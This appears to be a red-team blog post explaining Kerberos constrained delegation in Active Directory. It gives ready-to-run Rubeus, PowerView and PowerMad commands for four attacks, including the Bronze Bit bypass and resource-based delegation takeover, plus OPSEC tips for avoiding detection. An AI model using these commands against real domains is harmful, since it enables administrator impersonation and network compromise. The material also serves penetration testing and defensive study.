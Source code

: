 ```yaml
---
title: 4 Ways to Abuse Constrained Delegation
date: 2022-03-15 09:48:47 +07:00
categories: RedTeaming
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: Various attack prototypes for Constrained Delegation Abuse
---
```


# Constrained Delegation

- [Attack Variants](#attack-variants)
	- [Basic Constrained Delegation Exploitation](#Basic-Constrained-Delegation-Exploitation)
	- [Alternate Service Name Abuse](#alternate-service-name-abuse)
	- [Bronze Bit Attack](#bronze-bit-attack)
	- [Abusing Resource Based Constrained Delegation](#abusing-resource-based-constrained-delegation)
- [OPSEC](#opsec)
- [Resources](#resources)
- **Constrained Delegation** was soon released after unconstrained delegation as a safer means for services to perform Kerberos delegation. It aims to restrict the services to which the server can act on behalf of a user. It no longer allows the server to cache the TGTs of other users, but allows it to request a TGS for another user with its own TGT.
- To impersonate the user, *Service for User (S4U)* extensions are used which provides two extensions:
	- **Service for User to Self (S4U2self)** - Allows a service to obtain a forwardable TGS to itself on behalf of a user with just the user principal name without supplying a password. The service account must have the *TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION – T2A4D UserAccountControl* attribute.
	- **Service for User to Proxy (S4U2proxy)** - Allows a service to obtain a TGS to a second service on behalf of a user. Which second service? This is controlled by *msDS-AllowedToDelegateTo* attribute. This attribute contains a list of SPNs to which the user tokens can be forwarded.
	![](Constrained1.png)
- To perform the delegation, we ultimately need the TGT of the principal (**machine or user**) trusted for delegation. We can extract it from a machine (Rubeus dump) or request one using the NTLM / AES keys (Mimikatz `sekurlsa::ekeys` + Rubeus `asktgt`).
1. Enumerate users/computers with constrained Delegation
	- In Bloodhound: 
		- Users `MATCH (c:User), (t:Computer), p=((c)-[:AllowedToDelegate]->(t)) RETURN p`
		- Computers: `MATCH (c:Computer), (t:Computer), p=((c)-[:AllowedToDelegate]->(t)) RETURN p`
	- In Powerview:
		- Users: `Get-DomainUser –TrustedToAuth`
		- Computers: `Get-DomainComputer –TrustedToAuth`
	- Using ADModule enumerate both computers and users: ```Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo```
> NOTE: Constrained delegation can be configured on user accounts as well as computer accounts.  Make sure you search for both.

------------------------------------------------------

# Attack Variants

## Basic Constrained Delegation Exploitation

1. To perform the delegation, we ultimately need the TGT of the principal (machine or user) trusted for delegation.  We can extract it from a machine (Rubeus `dump`) or request one using the NTLM / AES keys (Mimikatz `sekurlsa::ekey`s + Rubeus `asktgt)`: ```.\Rubeus.exe asktgt /user:svc_with_delegation /domain:targetdomain.com /rc4:2892......```
2. Use `s4u2self` and `s4u2proxy` to impersonate the Target user delegated to the allowed SPN: ```.\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:Administrator /msdsspn:cifs/dc /ptt```

## Alternate Service Name Abuse

- Another interesting issue in Kerberos is that the delegation occurs not only for the specified service on the target machine but for any service running on the machine under the same account name. There is no validation for the SPN specified in s4u. 
- This is huge as it allows access to many interesting services such as `CIFS` when the delegation may be for a non-intrusive service like `TIME`.
1. Use `s4u2self` and `s4u2proxy` to impersonate the Target user delegated to an alternate SPN: ```.\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:Administrator /msdsspn:time/dc /altservice:cifs /ptt```

## Bronze Bit Attack

- *CVE-2020-17049* - An attacker can impersonate users which are not allowed to be delegated. This includes members of the **Protected Users group** and any other users explicitly configured as sensitive and cannot be delegated.
- Patch is out on November 10, 2020, DC are most likely vulnerable until *February 2021*.
- `Patched Error Message` : `[-] Kerberos SessionError: KRB_AP_ERR_MODIFIED(Message stream modified)`
1. Use `s4u2self` and `s4u2proxy` to impersonate a user who is protected from delegation: ```.\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:Administrator /msdsspn:cifs/dc /bronzebit /ptt```
2. This attack can also be chained with the `altservice` attack to delegate to an alternate SPN: ```.\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:Administrator /msdsspn:time/dc /bronzebit /altservice:cifs /ptt```

## Abusing Resource Based Constrained Delegation
- It's possible to gain code execution with elevated privileges on a remote computer if you have *WRITE* privilege on that computer's AD object.
- Resource-Based Constrained Delegation (RBCD) configures the backend server (e.g. MSSQL) to allow only selected frontend services (e.g. IIS) to delegate on behalf of the user. This makes it easier for specific server administrators to configure delegation, without requiring domain admin privileges.
- DACL Property: `msDS-AllowedToActOnBehalfOfOtherIdentity`.
- In this scenario, `s4u2self` and `s4u2proxy` are used as above to request a forwardable ticket on behalf of the user. However, with RBCD, the KDC checks if the SPN for the requesting service (i.e., the frontend service) is present in the `msDS-AllowedToActOnBehalfOfOtherIdentity` property of the backend service. This means that the frontend service needs to have an SPN set. Thus, attacks against RBCD have to be performed from either a service account with SPN or a machine account.
- If we compromise a frontend service that appears in the RBCD property of a backend service, exploitation is the same as with constrained delegation above. This is however not too common.
- A more often-seen attack to RBCD is when we have *GenericWrite, GenericAll, WriteProperty, or WriteDACL* permissions to a computer object in the domain. This means we can write the `msDS-AllowedToActOnBehalfOfOtherIdentity` property on this machine account to add a controlled SPN or machine account to be trusted for delegation. We can even create a new machine account and add it. This allows us to compromise the target machine in the context of any user, as with constrained delegation.
1. Create a new machine account using PowerMad: ```New-MachineAccount -MachineAccount NewMachine -Password $(ConvertTo-SecureString 'P4ssword123!' -AsPlainText -Force)```
2. Get SID of our machine account and bake raw security descriptor for msDS-AllowedtoActOnBehalfOfOtherIdentity property on target: ```$sid = Get-DomainComputer -Identity NewMachine -Properties objectsid | Select -Expand objectsid; $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"; $SDbytes = New-Object byte[] ($SD.BinaryLength); $SD.GetBinaryForm($SDbytes,0)```
3. Use PowerView to use our `GenericWrite` (or similar) priv to apply this SD to the target: ```Get-DomainComputer -Identity TargetSrv | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}```
4. Finally, use Rubeus to exploit RBCD to get a TGS as admin on the target: ```.\Rubeus.exe s4u /user:NewMachine$ /rc4:A9A70FD4DF48FBFAB37E257CFA953312 /impersonateuser:Administrator /msdsspn:CIFS/TargetSrv.targetdomain.com /ptt```

-----------------------------------------------------

# OPSEC

- We should request TGTs with the AES keys (`/aes256:a561a175e395758550c912......`) rather than NTLM hash.
- Rubeus also has an `/opsec` argument which tells it to send the request without *pre-auth*, to more closely emulate genuine Kerberos traffic.

-----------------------------------------------------

# Resources

1. https://courses.zeropointsecurity.co.uk/courses/red-team-ops
2. https://www.pentesteracademy.com/activedirectorylab
3. https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution
4. https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference






